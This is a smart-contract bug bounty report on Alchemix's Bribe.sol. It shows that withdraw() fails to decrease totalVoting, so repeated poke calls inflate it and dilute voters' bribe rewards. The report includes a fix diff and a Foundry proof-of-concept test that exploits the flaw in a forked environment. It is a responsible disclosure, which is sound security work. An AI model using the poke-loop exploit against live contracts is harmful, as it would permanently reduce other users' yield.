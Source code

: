 # 31527 - \[SC - Critical] No accounting for totalVoting in Bribesolwithdr...

Submitted on May 21st 2024 at 02:17:27 UTC by @gladiator111 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31527

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:

* Permanent freezing of unclaimed yield

## Description

## Brief/Intro

`Bribe.sol::withdraw` doesn't decrease `totalVoting` which can be exploited by a malicious user to permanently decrease yield.

## Vulnerability Details

In the function, `Bribe.sol::withdraw`,`totalVoting` is not decreased and checkpointed as expected. The Withdraw function is called when a user withdraws their vote. It should decrease totalVoting but it is not.

```solidity
    //Doesn't decrease TotalVoting
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```

This can be exploited by malicious user, as the user can call poke repeatedly (as it doesn't have same Epoch constraints) to indefinitely increase totalSupply. When totalVoting is increased the earned yield will also decrease as follows

```solidity
reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;   //_priorSupply is totalVoting in the epoch
```

Users will earn far less yield. The more times the `poke` function is called, the less the yield will become. `Note - It doesn't even need a malicious user as some users will call poke after voting which will decrease yield`

## Impact Details

The Yield will be permanently frozen/lost.

## Suggestions/ Recommendations

modify the function as follows

```diff
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;
+       totalVoting -= amount;

+       _writeVotingCheckpoint();
        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L319-329

## Proof of Concept

Paste the following in Voting.t.sol and run using

```bash
forge test --match-test testYieldLoss -vvvv --fork-url $FORK_URL
```

```solidity
function testYieldLoss() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
        address bribeAddress1 = voter.bribes(address(sushiGauge));
        address bribeAddress2 = voter.bribes(address(balancerGauge));
        createThirdPartyBribe(bribeAddress1, bal, 1e19);
        createThirdPartyBribe(bribeAddress1, aura, 1e19);
        createThirdPartyBribe(bribeAddress2, bal, 1e19);
        createThirdPartyBribe(bribeAddress2, aura, 1e19);

        address[] memory pools = new address[](2);
        pools[0] = sushiPoolAddress;
        pools[1] = balancerPoolAddress;
        uint256[] memory weights = new uint256[](2);
        weights[0] = 5000;
        weights[1] = 5000;

        address[] memory bribes = new address[](2);
        bribes[0] = address(bribeAddress1); 
        bribes[1] = address(bribeAddress2); 

        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);                
        tokens[0][0] = bal;
        tokens[0][1] = aura;
        tokens[1] = new address[](2);                
        tokens[1][0] = bal;
        tokens[1][1] = aura;

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        console.log(IBribe(bribeAddress1).totalVoting());
        hevm.prank(beef);
        voter.vote(tokenId2,pools,weights,0);
        console.log(IBribe(bribeAddress1).totalVoting());

        for(uint256 i =0;i<20;i++){                // calling poke again and again
        hevm.prank(admin);
        voter.poke(tokenId1);
        }
        console.log(IBribe(bribeAddress1).totalVoting());  //totalVotes increase significantly

        hevm.warp(block.timestamp + nextEpoch);

        uint256 beforeBalance = IERC20(bal).balanceOf(beef);
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);
        uint256 afterBalance = IERC20(bal).balanceOf(beef);
        console.log(afterBalance-beforeBalance);              //user gets far less yield
}
```
